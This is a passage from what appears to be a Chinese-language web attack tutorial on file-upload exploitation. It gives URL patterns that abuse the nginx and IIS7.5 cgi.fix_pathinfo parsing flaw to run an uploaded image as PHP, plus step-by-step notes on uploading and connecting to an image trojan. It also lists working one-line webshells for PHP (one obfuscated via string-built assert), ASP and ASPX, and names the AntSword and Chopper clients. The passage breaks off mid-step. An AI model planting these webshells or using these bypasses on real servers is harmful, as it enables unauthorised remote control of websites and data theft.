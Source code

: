 **漏洞形式**

```html
www.xxxx.com/UploadFiles/image/1.jpg/1.php
www.xxxx.com/UploadFiles/image/1.jpg %00.php
www.xxxx.com/UploadFiles/image/1.jpg/ %20.php
```

**具体操作：**  
上传图片马  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e0e8e975b6d3f4808b03713369e24c82d3d1ea7c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e0e8e975b6d3f4808b03713369e24c82d3d1ea7c.png)  
上传成功  
访问图片木马  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-704f9ebc0c538a932e394302e6ebb215823910e3.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-704f9ebc0c538a932e394302e6ebb215823910e3.png)  
发现是基于nginx中间件的  
这时我们在末尾加入/xx.php进行nginx解析漏洞绕过  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-feba8f2838af230168f80306844cf31ccbbc24e3.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-feba8f2838af230168f80306844cf31ccbbc24e3.png)  
连接木马  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d48a39d4bf7125e28af5701b160a5fca44c8950f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d48a39d4bf7125e28af5701b160a5fca44c8950f.png)

### IIS7.5解析漏洞

IIS7.5的漏洞与nginx的类似，都是由于php配置文件中，开启了 cgi.fix\_pathinfo，而这并不是nginx或者iis7.5本身的漏洞。

0x06 木马文件
=========

webshell根据脚本可以分为PHP脚本木马，ASP脚本木马，也有基于.NET的脚本木马和JSP脚本木马。根绝时代和技术的变迁，国外也有用python编写的脚本木马，不过国内常用的无外乎三种，大马，小马，一句话木马，具体使用场景和特地如下图。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f6a8652ce2372b55be7b6662c36a19de1eb48317.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f6a8652ce2372b55be7b6662c36a19de1eb48317.png)

一句话木马：
------

```html
php :<?php @eval($_POST['v']);?>
     <?php  $a = "a"."s"."s"."e"."r"."t";
         $a($_POST[v]);?>
asp :<% eval request("v")%>
aspx:<%@ Page Language="Jscript"%><%eval(Request.Item["v"],"unsafe");%>
```

**工具的使用**  
可以用蚁剑或菜刀等工具对一句话木马进行连接  
这里我用的是蚁剑  
准备好php一句话木马
